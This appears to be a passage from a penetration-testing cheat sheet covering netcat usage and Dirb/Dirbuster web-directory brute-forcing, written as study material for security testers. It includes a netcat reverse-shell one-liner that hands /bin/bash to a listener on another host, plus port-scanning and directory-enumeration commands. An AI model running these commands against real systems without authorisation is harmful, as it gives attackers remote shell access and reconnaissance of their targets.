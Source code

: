 ### **Description**  
- **Primary Purpose**: “Toolkit” for TCP/UDP connections, port listening, file transfers, pivoting.  
- **Why It’s Essential**: Rapidly spin up or connect to arbitrary ports—useful for debugging or forming manual tunnels.

### **Fundamental & Advanced Commands**
1. **Listen on Port**  
   ```bash
   nc -lvp 4444
   ```
   - `-l` = listen, `-v` = verbose, `-p` = port.

2. **Reverse Shell**  
   ```bash
   nc 192.168.1.1 4444 -e /bin/bash
   ```
   - Connect back to a waiting listener at `192.168.1.1:4444`.

3. **Port Scanning**  
   ```bash
   nc -zv 192.168.1.1 1-1000
   ```
   - Quickly check open ports from 1 to 1000.

4. **Timeout**  
   ```bash
   nc -w 3 192.168.1.1 80
   ```
   - `-w 3` sets a 3-second timeout.

#### **Advanced Tips**
- **UDP Mode**: `nc -u 192.168.1.1 53`  
- **File Transfers**: 
  - Server: `nc -lvp 9999 > file.txt`  
  - Client: `nc 192.168.1.100 9999 < file.txt`

---

## 10. **Dirb/Dirbuster**

### **Description**  
- **Primary Purpose**: Brute-forcing hidden directories and files on web servers.  
- **Why It’s Essential**: Many web applications store admin panels, APIs, or hidden endpoints that standard crawling may not reveal.

### **Fundamental Commands**
1. **Basic Scan**  
   ```bash
   dirb http://test.com /usr/share/wordlists/common.txt
   ```
2. **Check for Specific Extensions**  
   ```bash
   dirb http://test.com -X .php
   ```
3. **Dirbuster** (GUI)  
   - Allows multi-threaded scanning and custom dictionaries.

